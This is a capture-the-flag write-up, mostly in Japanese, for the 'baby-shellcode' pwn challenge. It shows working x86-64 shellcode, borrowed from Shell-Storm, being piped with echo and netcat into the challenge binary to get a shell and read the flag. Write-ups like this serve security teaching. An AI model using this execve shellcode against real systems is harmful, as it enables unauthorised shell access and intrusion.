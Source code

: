 # baby-shellcode:Pwn:159pts
This challenge is a test to see if you know how to write programs that machines can understand.  
Oh, you know how to code?  
Write some code into this program, and the program will run it for you.  
What programming language, you ask? Well... I said it's the language that machines can understand.  

`nc 34.28.147.7 5000`  
[baby-shellcode](baby-shellcode)  

# Solution
次はshellcodeのようだ。  
```bash
$ ./baby-shellcode
a
Illegal instruction
```
実行するとどうやら入力したshellcodeを実行するようだ。  
[Shell-Storm](https://shell-storm.org/shellcode/files/shellcode-806.html)からshellcodeを借りてくる。  
```bash
$ (echo -e '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05';cat) | ./baby-shellcode
whoami
satoki
```
リモートへ試す。  
```bash
$ (echo -e '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05';cat) | nc 34.28.147.7 5000
id
uid=1000 gid=1000 groups=1000
ls
flag
run
cat flag
uoftctf{arbitrary_machine_code_execution}
```
shellcodeが実行でき、flagを読み取れた。  

## uoftctf{arbitrary_machine_code_execution}